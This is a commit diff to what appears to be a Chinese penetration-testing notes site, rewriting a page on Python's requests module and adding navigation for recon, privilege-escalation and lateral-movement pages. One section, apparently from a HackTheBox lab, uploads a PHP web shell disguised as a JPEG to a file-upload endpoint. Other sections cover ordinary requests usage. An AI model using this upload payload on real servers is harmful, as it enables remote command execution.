

Before and after one commit to f0nesec/f0nesec-docs, an MkDocs documentation site: the page built from docs/Python/Module/requstes.md, in a window 1280 px wide and 1400 px high, scrolled down 2043 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; plug-ins that fetch from the network failed and are left out; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
update by F0ne

````diff
--- a/docs/Python/Module/requstes.md
+++ b/docs/Python/Module/requstes.md
@@ -1,7 +1,6 @@
 # requests 模块
 
 > Python 内置了 requests 模块，该模块主要用来发送 HTTP 请求，requests 模块比 urllib 模块更简洁。
->
 
 ## requests 对象响应信息方法
 
@@ -30,6 +29,7 @@
 | request               | 返回请求此响应的请求对象                                                                                                                        |
 | text                  | 返回响应的内容，unicode 类型数据                                                                                                                |
 | url                   | 返回响应的 URL                                                                                                                                  |
+| session()             | 创建一个会话对象，在多次 HTTP 请求之间自动保存 Cookie、Header、连接等信息                                                                       |
 
 ```python
 # 导入 requests 包
@@ -61,58 +61,125 @@
 | request(method, url, args)  | 向指定 url 发送指定的请求方法 |
 
 ```python
-# args代表其他参数的意思
-# requests.post(url, data={key: value}, json={key: value}, args)
-# url 请求 url。
-# data 参数为要发送到指定 url 的字典、元组列表、字节或文件对象。
-# json 参数为要发送到指定 url 的 JSON 对象。
-# args 为其他参数，比如 cookies、headers、verify等。
+# 常用参数
+# url：请求地址
+# params：URL 参数
+# data：表单数据
+# json：JSON 数据
+# files：上传文件
+# headers：HTTP 请求头
+# cookies：Cookie
+# auth：认证
+# timeout：超时时间
+# proxies：代理
+# verify：HTTPS证书验证
+# allow_redirects：是否跟随重定向
 ```
 
-```python
-# 导入 requests 包
-import requests
-
-
-kw = {'s':'python 教程'}
-
-# 设置请求头
-headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
-
-# params 接收一个字典或者字符串的查询参数，字典类型自动转换为url编码，不需要urlencode()
-response = requests.get("https://www.runoob.com/", params = kw, headers = headers)
-
-# 查看响应状态码
-print (response.status_code)
-
-# 查看响应头部字符编码
-print (response.encoding)
-
-# 查看完整url地址
-print (response.url)
-
-# 查看响应内容，response.text 返回的是Unicode格式的数据
-print(response.text)
-```
-
-```python
-# 导入 requests 包
-import requests
-
-# 发送请求
-x = requests.request('get', 'https://www.runoob.com/')
-
-# 返回网页内容
-print(x.status_code)
-```
-
-## 显示请求和响应过程
+## session 使用
 
 ```python
 import requests
-from requests_toolbelt.utils import dump
 
-reps = requests.post(url, data=data, headers=headers)
-data = dump.dump_all(reps)
-print(data.decode('utf-8'))
+session = requests.Session()
+# 设置统一 header
+session.headers.update({
+    "User-Agent": "Mozilla/5.0"
+})
+# 设置统一代理
+session.proxies = {
+    "http": "http://127.0.0.1:8080",
+    "https": "http://127.0.0.1:8080"
+}
+session.get(url)
+session.post(url)
 ```
+
+## POST 上传文件
+
+```python
+import requests
+
+def main():
+    proxy = {
+        "http": "http://127.0.0.1:8080",
+        "https": "http://127.0.0.1:8080"
+    }
+    target = "http://popcorn.htb/torrent/upload_file.php"
+    web_shell = "<?php system($_GET['cmd']);?>"
+    parm = {
+        "mode": "upload",
+        "id": "520"
+    }
+    # 直接写入指定文件内容
+    files = {
+        "file": ("test.php", web_shell, "image/jpeg")
+    }
+    # 或者读取指定文件
+    files = {
+        "file": ("test.php", open('shell.php', 'rb'), "image/jpeg")
+    }
+    data = {
+        "submit": "Submit Screenshot"
+    }
+    req = requests.post(url=target, params=parm, files=files, data=data)
+    print(req.text)
+if __name__ == "__main__":
+    main()
+```
+
+## auth（认证）
+
+```bash
+import requests
+# 导入这个模块可以选择更多的认证模式
+from requests.auth import HTTPDigestAuth
+
+# 指定认证方式
+requests.get(url, auth=HTTPDigestAuth("admin","123456"))
+# 默认为 HTTP Basic 认证
+requests.get(url, auth=("admin","123456"))
+```
+
+## 超时时间
+
+```bash
+import requests
+
+# 连接超时 3s
+# 读取超时 5s
+# 解释：3秒内必须建立TCP连接，连接成功后，5秒内必须返回数据
+requests.get(url, timeout=(3,5))
+```
+
+## proxies（代理）
+
+```bash
+import requests
+
+proxies = {
+    "http": "http://127.0.0.1:8080",
+    "https": "http://127.0.0.1:8080"
+}
+
+requests.get(url, proxies=proxies)
+```
+
+## verify（HTTPS 证书）
+
+```bash
+import requests
+import urllib3
+
+# 关闭 https 报错
+urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
+requests.get(url, verify=False)
+```
+
+## allow_redirects（重定向）
+
+```bash
+import requests
+
+requests.get(url, allow_redirects=False)
+```
--- a/mkdocs.yml
+++ b/mkdocs.yml
@@ -118,6 +118,9 @@
 # 配置目录结构
 nav:
   - 首页: index.md
+  - 信息收集:
+    - 概述: Information-Gathering/index.md
+    - Nmap 工具使用: Information-Gathering/nmap.md
   - Web 应用程序安全:
       - 概述: Web-Application-Security/index.md
   - 活动目录安全（域控）:
@@ -132,8 +135,11 @@
         - 概述: Local-Privilege-Escalation/Windows/index.md
     - Linux 本地权限提升:
         - 概述: Local-Privilege-Escalation/Linux/index.md
+        - 敏感文件检索: Local-Privilege-Escalation/Linux/0.md
+        - 配置信息检索: Local-Privilege-Escalation/Linux/1.md
   - 横向移动:
     - 概述: Lateral-Movement/index.md
+    - 端口转发: Lateral-Movement/0.md
   - 凭证攻击:
     - 概述: Credential-Attacks/index.md
   - 代码审计:
@@ -161,6 +167,7 @@
     - OSWE 认证:
       - 概述: Certifications/OSWE/index.md
       - 正则表达式: Certifications/OSWE/0.md
+      - PHP 代码审计: Certifications/OSWE/1.md
     - OSEP 认证:
       - 概述: Certifications/OSEP/index.md
     - OSED 认证:
````
Also changed, not shown: docs/Certifications/OSWE/1.md (added, +18 -0 lines), docs/Certifications/OSWE/index.md (+1 -0 lines), docs/Information-Gathering/index.md (added, +11 -0 lines), docs/Information-Gathering/nmap.md (added, +13 -0 lines), docs/Lateral-Movement/0.md (added, +11 -0 lines), docs/Lateral-Movement/index.md (+5 -1 lines), docs/Local-Privilege-Escalation/Linux/0.md (added, +10 -0 lines), docs/Local-Privilege-Escalation/Linux/1.md (added, +18 -0 lines), docs/Local-Privilege-Escalation/Linux/index.md (+6 -1 lines), docs/index.md (+1 -0 lines).
